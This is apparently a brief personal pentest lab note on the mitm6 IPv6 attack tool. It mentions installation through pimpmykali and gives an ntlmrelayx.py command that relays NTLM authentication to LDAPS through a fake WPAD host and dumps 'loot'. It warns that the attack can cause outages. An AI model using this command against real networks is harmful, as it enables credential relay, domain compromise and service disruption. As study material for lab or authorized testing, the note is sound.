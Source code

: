 #MITM6 

# Install
should be there with pimpmykali
![[Pasted image 20240909131541.png]]
# Usage

two Parts
use ntlmrelayx.py 


![[Pasted image 20240909131736.png]]

```
ntlmrelayx.py -6 -t ldaps://ipaddress -wh fakewpad.marvel.local -l lootme
```
![[Pasted image 20240909131611.png]]

# disclamer
run in small 5-10 min increments
can cause outages
